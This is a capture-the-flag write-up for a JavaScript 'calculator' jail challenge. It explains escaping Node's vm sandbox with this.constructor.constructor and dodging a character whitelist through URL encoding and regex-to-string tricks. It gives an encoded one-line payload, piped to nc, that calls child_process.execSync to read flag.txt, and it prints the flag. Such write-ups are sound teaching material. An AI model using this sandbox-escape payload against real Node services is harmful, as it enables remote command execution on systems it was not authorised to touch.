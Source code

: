 #### Challenge:

It's clam's newest javascript Calculator-as-a-Service: the CaaSio Please Stop Edition! no but actually please stop I hate jsjails js isn't a good language stop putting one in every ctf I don't want to look at another jsjail because if I do I might vomit from how much I hate js and js quirks aren't even cool or funny or quirky they're just painful because why would you design a language like this ahhhhhhhhhhhhhhhhhhhhh

Connect to it at `nc challs.actf.co 31337`. [Source](./index.js ":ignore")

---

#### Solution:

- there is [known way](https://github.com/w181496/Web-CTF-Cheatsheet) to escape `vm` sandbox via by `this.constructor.constructor("alert(1)")`. Only remaining obstacle is the input character whitelist.
- most of the banned characters can be `URL` encoded, leaving us just to figure out how to construct `string` without any quotes. For that we can use forward slashes `/` to denote `regex` like: `/alert(1)/` which has an implicit conversion to string producing: `"/alert(1)/"`. By wrapping the function with `eval`, we can treat the unneeded `/` as empty comments like this : `/**/alert(1)/**/`, giving us function call from string without using quotes.

```bash
echo 'eval(unescape(/%2a%2a%2fthis%2econstructor%2econstructor%28%27return%20process%2emainModule%2erequire%28%22child%5fprocess%22%29%2eexecSync%28%22cat%20flag%2etxt%22%29%2etoString%28%29%27%29%28%29%2f%2a%2a/))' | nc challs.actf.co 31337
```

---

<details><summary>FLAG:</summary>

```
actf{omg_js_is_like_so_quirky_haha}
```

</details>
<br/>
